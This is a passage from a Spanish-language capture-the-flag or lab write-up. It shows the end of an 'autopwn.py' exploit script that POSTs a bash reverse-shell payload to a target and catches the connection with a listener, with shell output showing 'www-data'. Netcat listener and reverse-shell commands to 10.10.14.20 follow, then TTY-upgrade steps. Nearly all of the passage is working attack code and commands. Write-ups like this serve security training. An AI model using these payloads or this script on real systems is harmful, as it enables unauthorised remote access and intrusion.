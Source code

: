 ```python
    data_post = {
        b'bash -c "bash -i >& /dev/tcp/10.10.14.20/443 0>&1"'
    }

    r = requests.post(main_url, data=data_post)

if __name__ == '__main__':

    try:
        threading.Thread(target=makeRequest, args=()).start()
    except Exception as e:
        log.error(str(e))

    p1 = log.progress("Acceso")
    p1.status("Ganando acceso al sistema")

    shell = listen(lport, timeout=5).wait_for_connection()

    if shell.sock is None:
        p1.failure("No ha sido posible ganar acceso al sistema")
        sys.exit(1)
    else:
        shell.interactive()
```

Lo ejecutamos

```bash
python autopwn.py
whoami
#Output
www-data

ifconfig
```

El tito prefiere entablarse una shell normal. Se pone en escucha con `nc -nlvp 443` y lanza en la shell creado por el script
`bash -i >& /dev/tcp/10.10.14.20/443 0>&1`

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <numero filas> columns <numero columnas>
```
